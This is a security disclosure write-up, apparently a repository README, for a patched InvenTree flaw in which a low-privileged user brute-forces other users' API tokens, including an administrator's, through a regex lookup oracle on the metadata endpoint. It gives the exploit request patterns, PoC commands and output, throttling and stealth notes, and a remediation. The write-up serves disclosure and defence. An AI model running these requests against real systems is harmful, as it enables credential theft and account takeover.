





## Disclaimer

**The included proof of concept is intended solely for authorized security testing and research.**

This has successfully been patched as of version `1.5.3`.

Do not use this material against systems without the explicit permission of their owner. The author accepts no responsibility for misuse, unauthorized activity, damage, or other consequences resulting from its use. Users are responsible for complying with all applicable laws and regulations.

The vulnerability has been responsibly disclosed to the InvenTree maintainers and patched in supported releases. Users should upgrade to a fixed version before testing or deploying affected systems.

## References

* **GitHub Security Advisory:** [ORM Data Recovery via Generic Metadata Lookup](https://github.com/inventree/InvenTree/security/advisories/GHSA-hv74-9q5w-p8v3)
* **CVE:** `PENDING`

## Report Title

Authenticated low-privileged users can recover raw API tokens via generic metadata lookup oracle

## Table of Contents

- [Summary](#summary)
- [Vulnerability Class](#vulnerability-class)
- [Confirmed Affected Versions](#confirmed-affected-versions)
- [Impact](#impact)
- [Root Cause](#root-cause)
- [Why the Oracle Works](#why-the-oracle-works)
- [Token Format](#token-format)
- [Proof of Concept](#proof-of-concept)
- [Proof-of-Concept Demonstration](#proof-of-concept-demonstration)
- [Throttling / Feasibility](#throttling--feasibility)
- [Logging / Stealth](#logging--stealth)
- [Recommended Remediation](#recommended-remediation)
- [Suggested Regression Tests](#suggested-regression-tests)
- [Suggested Severity](#suggested-severity)

***

## Summary

InvenTree exposes a generic metadata endpoint that allows an authenticated user to control both the target model and the model lookup field:

```text
GET /api/metadata/{model}/{lookup_field}/{lookup_value}/
```

The endpoint passes the URL-controlled `lookup_field` into Django REST Framework object lookup before object-level authorization is enforced. Django lookup expressions such as `key__regex`, `key__startswith`, `password__regex`, and relationship traversals are accepted as lookup fields.

This creates a blind oracle over database fields. A low-privileged authenticated user can query sensitive fields on the API token model:

```text
/api/metadata/apitoken/key__regex/<regex>/
```

The endpoint returns distinguishable outcomes:

```text
404 -> no object matched the predicate
403 -> exactly one object matched, then object permission was denied
500 -> multiple objects matched before object permission handling
```

Using these differences, a low-privileged user can recover raw API token strings for all users in the searched date window. Recovered active tokens can then be replayed directly as bearer tokens. In a clean Docker install of InvenTree `1.5.2`, this allowed a low-privileged user to recover an administrator token and authenticate as that administrator.

***

## Vulnerability Class

This is a **Django ORM lookup-expression injection** leading to a **blind authorization oracle** and **credential disclosure**.

Relevant classes / weaknesses:

```text
CWE-200: Exposure of Sensitive Information to an Unauthorized Actor
CWE-203: Observable Discrepancy
CWE-862: Missing Authorization
CWE-639: Authorization Bypass Through User-Controlled Key
```

The attacker does not inject SQL. The issue is higher-level: attacker-controlled input becomes an ORM lookup key. Django safely parameterizes values, but lookup keys such as `field__regex`, `field__startswith`, and `relation__field` change what the ORM queries.

***

## Confirmed Affected Versions

Confirmed dynamically:

```text
InvenTree 1.5.1
InvenTree 1.5.2
```

The latest stable release listed in the official release notes on 2026-09-01 is `1.5.2`, 
released 2026-08-25:

```text
1.5.2 | 2026-08-25 | Docker: inventree/inventree:1.5.2
```

Reference:

```text
https://docs.inventree.org/en/stable/releases/release_notes/
```

The same vulnerable code pattern is also present in the provided `master` / `1.6.0 dev` source checkout:

```text
InvenTree-master/src/backend/InvenTree/InvenTree/version.py:18
INVENTREE_SW_VERSION = '1.6.0 dev'

InvenTree-master/src/backend/InvenTree/InvenTree/api.py:896
class GenericMetadataView(RetrieveUpdateAPI)
```

***

## Impact

A normal authenticated user can recover API tokens belonging to other users. If any recovered active token belongs to an administrator, staff user, integration account, or superuser, the attacker can use that token directly:

```http
GET /api/user/me/ HTTP/1.1
Host: target
Authorization: Token <recovered-token>
```

The response confirms the compromised identity and privilege flags:

```json
{
  "username": "administrator",
  "is_staff": true,
  "is_superuser": true
}
```

This bypasses online password guessing and login failure controls because the attacker is not guessing passwords. They are recovering bearer token secrets from the database through an application-level oracle.

The same primitive can query Django password hashes:

```text
/api/metadata/user/password__regex/<regex>/
```

That permits blind recovery of password hashes for offline cracking. API token recovery is the primary impact because active raw tokens are immediately usable, but this just shows the extent of the impact.

***

## Root Cause

In `GenericMetadataView`, the target model is resolved from a URL parameter:

```python
model_name = self.kwargs.get('model', None)
model = ContentType.objects.filter(model=model_name).first()
return model.model_class()
```

The queryset is unrestricted:

```python
def get_queryset(self):
    model = self.get_permission_model()
    return model.objects.all()
```

The lookup field is also taken directly from the URL:

```python
def dispatch(self, request, *args, **kwargs):
    self.lookup_field = self.kwargs.get('lookup_field', 'pk')
    self.lookup_url_kwarg = (
        'lookup_value' if 'lookup_field' in self.kwargs else 'pk'
    )
    return super().dispatch(request, *args, **kwargs)
```

Public 1.5.2 source reference:

```text
https://raw.githubusercontent.com/inventree/InvenTree/1.5.2/src/backend/InvenTree/InvenTree/api.py

Lines 807-852:
- GenericMetadataView
- URL-controlled model resolution
- model.objects.all()
- URL-controlled lookup_field assignment
```

Object-level permission is checked after object lookup. Therefore the lookup itself leaks information before authorization can hide it.

In the tested version, object permission for this endpoint requires authentication at class level, then checks model change permission at object level:

```python
class ContentTypePermission(OASTokenMixin, permissions.BasePermission):
    def has_permission(self, request, view):
        return request.user and request.user.is_authenticated

    def has_object_permission(self, request, view, obj):
        if model_class := obj.__class__:
            return users.permissions.check_user_permission(
                request.user, model_class, 'change'
            )
        return False
```

The authorization check happens only after DRF attempts to resolve the object using the attacker-controlled lookup expression.

***

## Why the Oracle Works

For a request such as:

```text
GET /api/metadata/apitoken/key__regex/^inv-a[0-9a-f]{39}-20260901$/
```

DRF/Django effectively asks:

```python
ApiToken.objects.all().get(key__regex='^inv-a[0-9a-f]{39}-20260901$')
```

The attacker can distinguish three states:

```text
No rows match:
  -> 404 Not Found

Exactly one row matches:
  -> object found
  -> object permission check runs
  -> lowpriv lacks permission
  -> 403 Forbidden

Multiple rows match:
  -> .get(...) raises MultipleObjectsReturned
  -> 500 Server Error
```

By iterating over token characters and using anchored regex patterns, the attacker can build the token value one character at a time. If multiple tokens share a prefix, the search branches and recovers all matching tokens.

***

## Token Format

InvenTree API tokens are generated with the following structure:

```text
inv-<40 hex characters>-YYYYMMDD
```

The date suffix is the token creation date, not a secret. The PoC brute-forces date suffixes before recovering token bodies.

Source reference for token generation:

```text
https://raw.githubusercontent.com/inventree/InvenTree/1.5.2/src/backend/InvenTree/users/models.py

ApiToken.generate_key(...)
key = models.CharField(... unique=True ...)
```

***

## Proof of Concept

The PoC requires only low-privileged credentials.

It performs:

1. Low-privileged authentication check.
2. Token creation-date brute force.
3. Token body recovery through `/api/metadata/apitoken/key__regex/.../`.
4. Active-token validation through `/api/user/me/`.
5. Printing recovered tokens and associated identity / privilege status.

By default, the PoC prints all recovered token candidates. Active tokens are annotated with the username and privilege flags returned by `/api/user/me/`. Revoked or expired candidates are printed as inactive unless `--only-active` is supplied.

Default date behavior:

```text
--years-back 3
```

This searches from January 1 of `YEAR(date_end) - 3` through `date_end`. If `date_end` is omitted, it defaults to the current date. For example, on 2026-09-01:

```text
2023-01-01 through 2026-09-01
```

Run all-token recovery:

```bash
python3 poc_metadata_token_oracle_attack.py \
  --base-url http://192.168.186.144 \
  --low-user lowpriv \
  --low-pass 'lowpriv' \
  --years-back 1 \
  --only-active
```

Run elevated-token-only recovery:

```bash
python3 poc_metadata_token_oracle_attack.py \
  --base-url http://192.168.186.144 \
  --low-user lowpriv \
  --low-pass 'lowpriv' \
  --years-back 1 \
  --only-active \
  --only-elevated
```

***

## Proof-of-Concept Demonstration

Successfully reproduced on a clean 1.5.2 Docker instance of InvenTree.

Note: the credentials and tokens shown in this section came from a short-lived isolated lab environment that I owned and controlled. The environment has since been destroyed. I am including the values raw and unfiltered so the reproduction evidence is easy to follow.

Environment:

```text
InvenTree Docker image: inventree/inventree:1.5.2
Target URL: http://192.168.186.144
Attacker account: lowpriv
Victim accounts: administrator, AnotherVictim
```

Steps:

1. Deploy a fresh InvenTree `1.5.2` Docker environment.
2. Create a low-privileged user with no administrative privileges.
3. Create at least one token as an administrator or superuser.
4. Optionally create another token as a second user to show cross-user recovery.
5. Run the PoC using only the low-privileged account.
6. Observe that tokens for both users are recovered and active tokens are mapped to their user identities.

Observed PoC output from clean `1.5.2` install:

```bash
python3 poc_metadata_token_oracle_attack.py \
  --base-url http://192.168.186.144 \
  --low-user lowpriv \
  --low-pass 'lowpriv' \
  --years-back 1 \
  --only-active

[*] Date window: 20250101 through 20260901
[+] Authenticated as: lowpriv
    is_superuser: False
    is_staff: False
[*] Brute-forcing 609 token date suffix(es)
[+] Found token date: 20260901
[*] Recovering token body candidate(s) for 20260901
    depth 01: 2 branch(es), 16 oracle request(s), 0.3s
    depth 02: 2 branch(es), 48 oracle request(s), 1.1s
    depth 03: 2 branch(es), 80 oracle request(s), 1.7s
    depth 04: 2 branch(es), 112 oracle request(s), 2.4s
    depth 08: 2 branch(es), 240 oracle request(s), 5.1s
    depth 16: 2 branch(es), 496 oracle request(s), 10.7s
    depth 24: 2 branch(es), 752 oracle request(s), 16.0s
    depth 32: 2 branch(es), 1008 oracle request(s), 21.7s
    depth 40: 2 branch(es), 1264 oracle request(s), 27.0s
[*] Recovered 2 token candidate(s)

[+] Recovered token
    token: inv-847c1fcbe7712efe480cdd7bd5063f7ccf363e7b-20260901
    active: true
    user: AnotherVictim
    is_staff: False
    is_superuser: False

[+] Recovered token
    token: inv-a706b9f79e2b77d2afae8f3f7f6822b136fdcbdf-20260901
    active: true
    user: administrator
    is_staff: True
    is_superuser: True

[*] Summary
    date_matches: 1
    recovered_candidates: 2
    active_tokens: 2
    printed_tokens: 2
```

Evidence screenshots:

1. First the superuser (`administrator`) token was created:

```
inv-a706b9f79e2b77d2afae8f3f7f6822b136fdcbdf-20260901
```



2. Then, the secondary user (`AnotherVictim`) token was created:

```
inv-847c1fcbe7712efe480cdd7bd5063f7ccf363e7b-20260901
```



3. Execution of the PoC



4. Account takeover:



5. Errors visible in administrative settings (from user `administrator` UI):



These screenshots show:

- administrator token creation,
- second user token creation,
- lowpriv PoC execution recovering both active tokens,
- recovered administrator token validating as staff and superuser.
- admin-visible error details for the broad multi-match `500` oracle state.

***

## Throttling / Feasibility

The default authenticated throttle in source is:

```python
THROTTLE_USER = get_setting('INVENTREE_THROTTLE_USER', 'throttle.user', '60/second')
```

It is installed when not in debug mode and not disabled:

```python
if not DEBUG and THROTTLE_USER and str(THROTTLE_USER).lower() != 'none':
    REST_FRAMEWORK['DEFAULT_THROTTLE_RATES']['user'] = THROTTLE_USER
    REST_FRAMEWORK['DEFAULT_THROTTLE_CLASSES'].append(
        'rest_framework.throttling.UserRateThrottle'
    )
```

Source reference:

```text
InvenTree-master/src/backend/InvenTree/InvenTree/settings.py:552
InvenTree-master/src/backend/InvenTree/InvenTree/settings.py:559
```

The attack remains practical under this default:

- One date suffix check costs one request.
- A one-year window costs roughly 365 date-check requests.
- A three-year Jan-1-based window costs roughly 1,000-1,400 date-check requests depending the current date.
- Recovering a single token body for one date costs about `16 * 40 = 640` oracle requests.
- If multiple tokens exist on the same date, branch count increases, but the search recovers all of them together.

Clean `1.5.2` reproduction:

```text
609 date checks
1264 token-body oracle requests
2 active tokens recovered
~27 seconds for token-body recovery
```

Earlier lab reproduction with more same-date tokens:

```text
~5,000 oracle requests
~130 seconds
multiple root-authenticating candidates recovered
```

The PoC includes retry handling for transient errors and `429 Too Many Requests` responses. Concurrency can be tuned using `--workers`.

***

## Logging / Stealth

Broad predicates can return `500` when multiple objects match, which may create admin-visible error reports. However, exploitation does not require relying only on `500` responses.

The useful quiet oracle states are:

```text
404 -> no match
403 -> exactly one unauthorized match
```

Once token dates and prefixes have been narrowed, much of the attack can proceed through `403` / `404` responses rather than repeated login failures or repeated server exceptions.

The admin error detail screenshot confirms the noisy state precisely:

```text
Message: get() returned more than one ApiToken -- it returned 2!
Path: /api/metadata/apitoken/key__regex/^inv-[0-9a-f]{40}-20260901$/
Exception: users.models.ApiToken.MultipleObjectsReturned
```

This is useful for triage because it demonstrates the underlying `.get(...)` cardinality leak. It also clarifies that defenders may see broad `500` probes in the Admin Center, while narrower no-match and single-match probes produce `404` / `403` states.

***

## Recommended Remediation

Recommended primary fix:

- Do not allow URL-controlled lookup fields for generic metadata access.
- Restrict generic metadata lookups to `pk` or a small explicit allowlist of safe fields.
- Reject lookup fields containing Django lookup / traversal syntax such as `__`.

Recommended defense-in-depth:

- Do not expose generic metadata access for sensitive models such as `apitoken`, `user`, sessions, OAuth tokens, MFA tokens, social tokens, or password reset artifacts.
- Apply permission-scoped querysets before object lookup.
- Ensure unauthorized and nonexistent objects produce indistinguishable responses where practical.
- Ensure multi-match predicates cannot produce server errors that reveal cardinality.
- Consider rotating API tokens after patching if exploitation is suspected.

Example hardening direction:

```python
ALLOWED_METADATA_LOOKUP_FIELDS = {'pk'}

lookup_field = self.kwargs.get('lookup_field', 'pk')

if lookup_field not in ALLOWED_METADATA_LOOKUP_FIELDS:
    raise ValidationError({'lookup_field': 'Unsupported lookup field'})
```

***

## Suggested Regression Tests

As a low-privileged authenticated user, these requests should not reveal distinguishable match state:

```text
/api/metadata/apitoken/key/<value>/
/api/metadata/apitoken/key__startswith/<value>/
/api/metadata/apitoken/key__regex/<value>/
/api/metadata/user/password/<value>/
/api/metadata/user/password__startswith/<value>/
/api/metadata/user/password__regex/<value>/
```

Expected fixed behavior:

- disallowed lookup fields are rejected before ORM lookup,
- sensitive models cannot be queried through generic metadata,
- unauthorized and nonexistent sensitive lookups are not distinguishable,
- multi-match predicates do not create `500` responses,
- metadata access is evaluated through permission-scoped querysets before lookup resolution.

***

## Suggested Severity

Suggested severity:

```text
High
```

Suggested CVSS 3.1 score and vector:

```text
8.1
AV:N/AC:L/PR:L/UI:N/S:U/C:H/I:H/A:N
```

Rationale:

- Network exploitable.
- Low attack complexity once an authenticated account is available.
- Requires only low privileges.
- No user interaction.
- High confidentiality impact because raw bearer tokens are disclosed.
- High integrity impact because recovered privileged tokens allow API impersonation.
- Availability impact is not required for exploitation.
